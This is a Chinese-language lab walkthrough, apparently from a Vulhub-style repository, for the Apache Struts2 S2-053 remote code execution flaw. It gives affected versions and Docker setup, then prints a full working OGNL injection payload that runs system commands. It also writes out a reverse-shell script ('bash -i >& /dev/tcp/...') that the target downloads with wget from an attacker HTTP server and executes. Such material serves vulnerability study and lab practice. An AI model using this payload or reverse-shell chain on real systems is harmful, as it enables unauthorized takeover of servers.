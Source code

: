 # Apache Struts2 S2-053 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 漏洞影响

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub 执行以下命令启动 s2-053 测试环境：

```
docker-compose build
docker-compose up -d
```

环境运行后，访问 `http://your-ip:8080/hello.action` 即可看到一个提交页面。

## 漏洞复现

Struts2 在使用 Freemarker 模板引擎的时候，同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析，但由于被 Freemarker 解析一次后变成离开一个表达式，被 OGNL 解析第二次，导致任意命令执行漏洞。

输入如下 Payload 即可成功执行命令（注意 Payload 末尾有一个换行）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![image-20220302132454688](images/202203021324760.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

![image-20220302132524059](images/202203021325134.png)

执行 shell.sh 文件的命令为：

```
bash shell.sh
```

执行 shell.sh 文件的 Payload 为：

![image-20220302132552428](images/202203021325509.png)

成功接收反弹 shell：

![image-20220302132603933](images/202203021326024.png)

